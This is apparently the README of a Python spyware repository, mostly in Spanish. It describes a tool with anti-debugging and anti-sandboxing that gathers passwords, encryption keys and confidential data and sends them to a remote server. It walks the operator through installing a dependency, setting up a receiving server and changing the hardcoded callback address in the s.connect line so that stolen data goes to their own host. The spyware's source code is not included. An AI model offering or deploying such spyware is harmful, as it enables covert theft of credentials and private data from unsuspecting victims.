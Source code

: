 Spyware made in python with me, zNetDev

A simple spyware with anti-debugging and anti-sandboxinga

un spyware simple echo por mi

Este código recopila información (como contraseñas, claves de cifrado y datos confidenciales) y te las envía a un servidor remoto. Este código es básico con técnicas básicas para no ser detectado, si buscas algo para tú poder infiltrarte en sitios grandes y recopilar información con este código,busca otro repositorio publico

¿como se usa?

•Primero preparamos el terreno:

Antes que nada, necesitas tener Python instalado en tu computadora. Si no lo tienes, puedes conseguirlo fácilmente desde el sitio web oficial de Python. La instalación es bastante sencilla, solo sigue las instrucciones que te de el sitio oficial

•conseguir las herramientas necesarias

Este código necesita algunas cosas adicionales para funcionar correctamente. Para obtenerlas, abre una ventana de comandos (en Windows, sería el símbolo del sistema) y escribe lo siguiente:

pip install pycriptodome

•preparar tu propio servidor

Antes de ejecutar el código, necesitas configurar un servidor al que el script enviará los datos que recolecte y desde el cual descargar archivos adicionales si es necesario. Tendrás que tener una dirección IP y un número de puerto a mano para hacerlo.

•modificiacion del código 

Abre el archivo de código Python en un editor de texto o un entorno de desarrollo integrado (IDE) como Visual Studio Code o PyCharm. Busca la línea que contiene la dirección IP y el puerto del servidor remoto, esta se encuentra en la línea 104 del código tambien en la 122 (para que no se confundan al respecto) (s.connect(('192.168.1.100', 12345))). Cambia la dirección IP '192.168.1.100' y el puerto 12345 por los de tu servidor remoto

•ejecutar el code

Una vez que hayas hecho las modificaciones q te he dicho, guarda el archivo de código. Abre una terminal o símbolo del sistema y navega hasta el directorio donde se encuentra el archivo de código Python. Ejecuta el script Python con el siguiente comando:

python nombre_del_archivo.py

(cambia el nombre_del_archivo.py con el nombre del archivo que tengas)

tengo pensado hacer este malware modificado en C o en js.
